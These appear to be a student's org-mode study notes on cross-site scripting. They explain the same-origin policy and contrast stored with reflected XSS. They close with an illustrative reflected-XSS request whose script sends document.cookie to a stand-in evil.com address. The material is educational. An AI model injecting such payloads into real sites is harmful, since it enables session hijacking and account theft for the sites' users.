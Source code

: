 #+title: XSS and UI-based Attacks
* XSS - Cross Site Scripting
** Introduction
- SOP prohibits JavaScript's cross-origin access 
  + evil.com cannot trick a browser into allowing the evil script to access the data on bank.com
- XSS attacks are used to subvert(颠覆，推翻，破坏) the SOP.
  - evil.com can trick bank.com by sending his *malicious script* to the browser.
  - The browser is not able to learn the script comes from evil.com.
  - So the malicious script operates in the origin of bank.com.
  - Then the script has full access of data of bank.com
** Types of XSS attacks
Actually there are many types of XSS attacks and we only talk about two of them
- *Stored XSS attacks*
  The *injected code* is stored on bank.com's server, so the victim server returns the permanently injected code to the browser.

- *Reflected XSS attacks*
  The *injected code* is reflected off the victim server, a error message or other things can be controlled by attacker

** Reflected XSS attacks
- The attacker *embeds* the malicious script in the URL of another server.
  + a parameter in the query string 

- The attacker lures the user to visit his page, and then clicks a link to a trusted site(*victim*)
  + Trick the user into visiting the URL directly 

- The server may echo back the script or the complete URL to the user


#+begin_src php
GET /search.php? term=<script>Send(document.cookie,'admin@evil.com' );</script>
#+end_src


